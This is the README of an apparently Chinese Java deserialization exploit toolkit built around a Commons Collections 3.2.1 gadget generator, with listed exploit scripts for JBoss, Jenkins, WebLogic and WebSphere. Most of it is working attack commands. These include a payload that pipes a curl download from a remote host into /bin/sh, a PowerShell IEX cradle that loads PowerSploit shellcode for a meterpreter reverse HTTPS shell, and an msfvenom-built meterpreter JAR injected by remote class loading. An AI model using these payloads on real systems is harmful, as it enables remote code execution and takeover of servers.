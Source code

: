 Java Untrusted Deserialization Exploits Tools
---

###  免责声明

本工具仅供学习与研究目的，请勿用于商业目的，如果因此有任何法律纠纷，与工具作者无任何关系。

### 文件说明

    .
    |____README.md
    |____exserial.jar     基于 CommonsCollections <= 3.2.1 的 Gadget 生成程序
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet 利用脚本
    | |____jenkin.py      Jenkins CLI 利用脚本
    | |____weblogic.py    WebLogic 利用脚本
    | |____websphere.py   WebSphere 利用脚本

### 使用方法

`exserial.jar` 目前包含两种 Payload 生成模式：`CommandExec` 和 `ClassInject`

    $ java -jar exserial.jar
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

#### 1. CommandExec 模式

用于直接在目标服务器上执行系统命令，可以根据不同的目标环境调整攻击配置：

    $ java -jar exserial.jar CommandExec
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            
针对目标为 Linux 的系统，可以执行如下命令生成 Payload，使目标成功执行命令后加载我们指定的脚本文件进行执行：

    $ java -jar exserial.jar CommandExec Linux "curl http://myserver.com/todo.sh|/bin/sh" > demo1.ser
    
针对目标为 Windows 的系统，可以借助 Powershell 来获取 Shell 或者加载我们指定的脚本进行执行（下面为利用 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 中的 `Invoke--Shellcode.ps1` 脚本反弹类型为 `windows/meterpreter/reverse_https` 的 Shell）：

    $ java -jar exserial.jar CommandExec Win "powershell IEX (New-Object Net.WebClient).DownloadString('http://myserver.com/CodeExecution/Invoke--Shellcode.ps1');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.130.1 -Lport 4444 -Force" > demo2.ser
    
![](./screenshots/1.png)

#### 2. ClassInject 模式

用于使目标服务器动态加载我们指定的 JAR 包并执行指定类名的 `main` 方法。

例如，可以使用 `msfvenom` 生成基于 [Metasploit](https://github.com/rapid7/metasploit-framework) 框架的 `java/meterpreter/reverse_tcp` JAR 包：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
然后将 `java_meterpreter_reverse_tcp.jar` 包至于一服务上用于目标服务器进行加载，然后使用 `exserial.jar` 生成对应的 Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

![](./screenshots/2.png)

### 更新记录

* 2015-12-12    增加 ClassInject Gadget 执行链生成类 和 反序列化本地测试类
* 2015-12-10    更新目录结构 & 修复 websphere.py 利用脚本 bug
* 2015-12-07    基于 CommonsCollections <= 3.2.1 Gadget 生成程序 exserial.jar（包含 jboss、jenkins、weblogic、websphere 利用脚本）
